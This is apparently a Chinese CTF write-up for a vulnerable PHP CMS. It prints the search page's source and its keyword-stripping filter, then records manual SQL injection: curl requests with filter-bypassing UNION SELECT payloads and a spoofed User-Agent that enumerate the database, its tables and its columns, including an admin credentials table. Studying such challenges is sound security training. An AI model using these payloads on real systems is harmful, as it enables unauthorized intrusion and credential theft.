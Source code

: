 ```php
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
# mysql_real_escape_string 虽然给$id加了反斜杠，但是下面的sql语句没有用到引号，因此在利用这个SQL注入漏洞的时候不需要闭合引号。
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
```

然后再次通过about.php文件包含获得antiinject的源码。antiinject函数的作用是将一些字符串替换为空字符，完全可以用一种叫做“双写”的技巧绕过；或者对于`$keyword`里面排在空格` `之前的字符串插入一个空格` `：
```php
<?php
function antiinject($content){
  $keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
  $info=strtolower($content);
  for($i=0;$i<=count($keyword);$i++){
    $info=str_replace($keyword[$i], '',$info);
  }
  return $info;
}
?>
```

开心！sql注入发现！记录一下手工注入的过程：
```shell
# 有多少列？4列
# quote("25252\tun ion\tsel ect\t1,2,3,4")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2C2%2C3%2C4'
# 当前schema的名字是？sae-exploitblog
# 好像获得schema名字也没啥用
# quote("25252\tun ion\tsel ect\t1,database(),3,4")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Cdatabase%28%29%2C3%2C4'
# 遍历表名。一共有4张表 admin, filename, hackerip, message
# quote("25252\tun ion\tsel ect\t1,table_nanameme,3,4\tfr om\tinfoorrmation_schema.tables\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t0")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ctable_nanameme%2C3%2C4%09fr%20om%09infoorrmation_schema.tables%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%090'
# 遍历列名。一共有14列
# admin(id, username, userpass)
# filename(id, name, path)
# hackerip(id, qq, mail, ip)
# message(id, nice, say, display)
# quote("25252\tun ion\tsel ect\t1,table_nanameme,column_nanameme,4\tfr om\tinfoorrmation_schema.columns\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t0")
```